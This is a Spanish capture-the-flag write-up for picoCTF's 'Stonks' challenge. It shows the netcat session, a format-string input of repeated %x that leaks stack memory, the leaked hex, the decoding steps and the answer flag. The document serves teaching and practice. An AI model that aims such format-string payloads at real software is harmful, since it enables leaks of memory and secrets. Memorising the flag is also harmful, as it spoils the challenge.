 ## Objetivo 

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/7e71fc0d8cc3339bfad6bf408f7dc510/vuln.c) `nc mercury.picoctf.net 6989`

## Solución  


ingresamos al launcher que nos da el reto
```java 
┌──(kali㉿kali)-[~/Downloads/stonks]
└─$ nc mercury.picoctf.net 6989
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?

```

no pide un token, ingresamos %x%x para que nos de un codigo en hexadecimal
```java 
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Buying stonks with token:
8a5e3b0804b00080489c3f7f52d80ffffffff18a5c160f7f60110f7f52dc708a5d18018a5e3908a5e3b06f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e3538613032356533ffc0007df7f8daf8f7f60440daac150010f7defce9f7f610c0f7f525c0f7f52000ffc03368f7de068d
Portfolio as of Wed Nov 13 07:08:46 UTC 2024

1 shares of HTY
1 shares of HAH
11 shares of K
117 shares of PKFT
101 shares of BMUI
191 shares of TTF
Goodbye!

```

con ayuda de cyber chef transformamos el código  dado con las recetas ***swap endiannes*** y ***from hex*** lo convertimos

![[Pasted image 20241113011455.png]]


a partir de la ultima "F" que tenemos en el codigo dado (el conjunto fffffff) damos supirmir y la salida ira cambiando, vamos suprimiendo y checando la salida hasta que nos dé la bandera 

![[Pasted image 20241113011636.png]]


**picoCTF{I_l05t_4ll_my_m0n3y_0a853e52}**


## Notas Adicionales 

### Referencias